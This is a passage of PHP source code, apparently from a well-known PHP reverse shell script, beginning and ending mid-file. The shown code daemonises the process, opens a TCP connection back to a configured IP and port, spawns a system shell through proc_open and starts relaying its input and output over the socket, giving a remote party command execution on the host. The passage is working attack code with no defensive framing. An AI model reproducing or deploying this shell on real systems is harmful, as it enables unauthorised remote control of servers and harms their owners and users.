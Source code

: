 	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);